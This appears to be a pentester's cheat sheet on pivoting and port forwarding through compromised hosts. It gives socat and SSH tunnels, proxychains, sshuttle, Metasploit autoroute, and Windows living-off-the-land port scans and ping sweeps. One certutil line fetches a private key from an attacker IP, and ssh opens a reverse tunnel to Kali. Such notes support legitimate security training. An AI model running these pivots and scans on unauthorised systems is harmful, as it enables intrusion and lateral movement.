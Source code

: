 <%*
const path = tp.file.folder(true).split('/');
const filename = "4_B_Network_" + path[path.length - 1];
await tp.file.rename(filename)
-%>
# Port Redirect

\[Subnets\]                         WAN          |     Subnet  1     |      Subnet 2     |      Subnet 3
\[Hosts\]               Kali    --->   Machine A ---> Machine B ---> Machine C
\-
\[Simple\]                                        Socat                  Target
\[Local\]                                      SSH Client           SSH Server             Target
\[Remote\]     SSH Server          SSH Client              Target

### Simple static
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:$hip:$hport
```
(Machine A)

Alternative with netcat: https://gist.github.com/holly/6d52dd9addd3e58b2fd5
Alternative requiring root rights: iptables
### Local Dynamic
```powershell
ssh -N -D 0.0.0.0:9997 $user_B@$ip_B
```
(Machine A)

### Remote Dynamic with ProxyChains and SSH
> Requires SSH above 7.6. Check with `ssh -V`.
##### 1st Setup (kali machine)
SSH
```
ssh-keygen -t rsa -b 4096 -f ./id_rsa_kali
cat ./id_rsa_kali.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
ProxyChains
```bash
nano /etc/proxychains4.conf
```
> With it, tools that do not support socks proxys by default, can be made compatible with the tunnel IF they are (most) dynamically-linked binaries.
> For local redirects add `socks5 $hip 9999` to the end.
> For remote redirects use `socks5 127.0.0.1 9999`.
> If socks4 is required, UDP and IPv6 won't be supported.
##### Use it
(kali machine)
```bash
sudo systemctl start ssh
```

(Machine A, interactive)
```bash
ssh -N -R 9997 kali@$ip_kali
```
or
(Machine A, non-interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/id_rsa_kali"
```
Then, run the following on it:
```bash
ssh -f -q -o BatchMode=yes -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i id_rsa_kali -N -R 9997 kali@$hip
```

(kali machine)
`proxychains <command>` to start e.g. a nmap scan over the pivot. It appears to then not use the IP-Addresses put into `/etc/hosts`

### Remote Dynamic with sshuttle
> Requires python on machine A!

```bash
socat TCP-LISTEN:2222,fork TCP:$ip_B:22
```
(Machine A)

```bash
sshuttle -r $user_A@$ip_A:2222 $subnet_2 $subnet_1
```
(kali machine)

### Remote Dynamic with Metasploit
Within an exististing session:
1. `bg`
2. `use post/multi/manage/autoroute`, `set session 1`, and `run -j` (adjust the session number)
3. `use auxiliary/server/socks_proxy`, `set VERSION 5`, `set SRVHOST 127.0.0.1`, `set SRVPORT 9989`, and `run -j`
4. Add `socks5 127.0.0.1 9989` to `/etc/proxychains4.conf` 

# Fault handling
Test the connection
`proxychains nmap -Pn $hip -p $hport`
`sudo ss -ntplu`

Proxychains does not work with tool (e.g. enum4linux)
`proxychains -q`

Slow scanning speeds
--> lower `tcp_read_time_out` and `tcp_connect_time_out` in `/etc/proxychains4.conf`

Start SSH Agent on windows
`Get-Service ssh-agent | Select StartType` says disabled
--> `Get-Service -Name ssh-agent | Set-Service -StartupType Manual ; Start-Service ssh-agent`

Correct ssh-key permissions on windows
```powershell
New-Variable -Name Key -Value "C:\Users\Public\id_rsa_kali"
# Remove Inheritance:
  Icacls $Key /c /t /Inheritance:d

# Set Ownership to Owner:
  # Key's within $env:UserProfile:
    Icacls $Key /c /t /Grant ${env:UserName}:F

   # Key's outside of $env:UserProfile:
     TakeOwn /F $Key
     Icacls $Key /c /t /Grant:r ${env:UserName}:F

# Remove All Users, except for Owner:
  Icacls $Key /c /t /Remove:g Administrator "Authenticated Users" BUILTIN\Administrators BUILTIN Everyone System Users

# Verify:
  Icacls $Key

# Remove Variable:
  Remove-Variable -Name Key
```
# Windows specific

Enable Telnet
```powershell
dism /online /Enable-Feature /FeatureName:TelnetClient
```
Portscan LOLBAS
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$hip", $_)) "TCP port $_ is open"} 2>$null
```
Pingsweep LOLBAS (**I SPENT SOME TIME FINDING THE MOST EFFICIENT APPROACH AND FORGOT TO NOTE WHICH OF THESE WORKED**)
```powershell
workflow pingsweep { foreach -parallel ($computer in 1..254) { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$computer -Quiet) {echo "192.168.209.$computer"} {echo "nein"} } }; pingsweep
```

```powershell
1..254 | % { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$_ -Quiet) {echo "192.168.209.$_"}} 2>$null
```

```powershell
$(foreach ($computer in 1..254) { Start-Job -ScriptBlock { if ( Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$using:computer -Quiet ) {echo "192.168.209.$using:computer"} } }) | Receive-Job -Wait
```


For port forwarding techniques using the windows tools plink, and netsh, consider the oscp manual

##### Create working dirs and start individual system scanning

```bash
for i in $(tail -n 7 0_Hosts); do (mkdir -p "B_$i" && cd $_ && proxychains nmap -Pn --osscan-guess -T 5 -A --top-ports 100 $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html)& done
```
